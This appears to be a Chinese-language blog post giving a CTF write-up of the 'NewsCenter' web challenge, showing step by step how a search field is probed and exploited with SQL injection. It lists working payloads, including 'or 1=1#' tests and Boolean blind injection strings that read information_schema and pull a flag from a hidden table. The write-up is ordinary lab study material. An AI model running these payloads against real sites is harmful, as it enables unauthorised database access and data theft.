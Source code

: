 ```yaml
---
layout: post
title: Web进阶题-NewsCenter
excerpt: "攻防世界进阶Web题目-NewsCenter"
date:   2020-10-15 19:21:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 题目描述，"如题目环境报错，稍等片刻刷新即可"，本题与报错有关？
2. 访问网站，有一个搜索框和一堆新闻，搜索框用于筛选新闻的标题，且不区分大小写
3. 通过Burp Suite抓包，发现为POST方法提交了search参数
4. 猜测SQL语句为'SELECT title,context FROM news WHERE title LIKE'.$POST['search']
5. 尝试堆叠注入，*';show databases;'*，没有返回有用内容，无堆叠注入漏洞
6. 确认注入存在
   * 访问*hello*，返回一条记录
   * 访问*hello'*，多了一个单引号，系统崩溃，所以单引号没被过滤
   * 访问*hello' and 1=1#*，返回内容为空，内容异常
   * 访问*' or 1=1#*，返回所有记录
   * 访问*flag*，返回内容为空
   * 访问*flag' or 1=1#*，返回所有记录
   * ...
   * 最后发现只要出现星号和反单引号就会崩溃系统，应该是被过滤掉了
7. 所以可以用or语句进行Boolean盲注
   * *flag' or ord(mid(database(),$1$,1))=§1§*，数据库名为news
   * *flag' or ord(mid(user(),$1$,1))=§1§*，用户名为user@10.42.145.23
   * *flag' or ord(mid((select version()),§1§,1))=§1§*，数据库版本为5.5.61
   * *flag' or ord(mid((select table_name from information_schema.tables where TABLE_SCHEMA=database() limit §1§,1),§1§,1))=§1§ #*，当前数据库中的表有secret_table
   * *flag' or ord(mid((SELECT GROUP_CONCAT(COLUMN_NAME SEPARATOR ",") FROM information_schema.COLUMNS  WHERE TABLE_SCHEMA = 'news' ),§1§,1))=§1§ #*，news数据库中有id,titl,content,id,fn4g字段
   * *flag' or ord(mid((SELECT GROUP_CONCAT(COLUMN_NAME SEPARATOR ",") FROM information_schema.COLUMNS  WHERE TABLE_SCHEMA = 'news'  and TABLE_NAME='secret_table'),§1§,1))=§1§ #*，secret表中的字段有id,fl4g
   * *flag' or ord(mid((SELECT fl4g FROM secret_table where id=1),§1§,1))=§1§ #*，爆出flag，QCTF{sq1_inJec7ion_ezzz}
8. 提交，答案正确

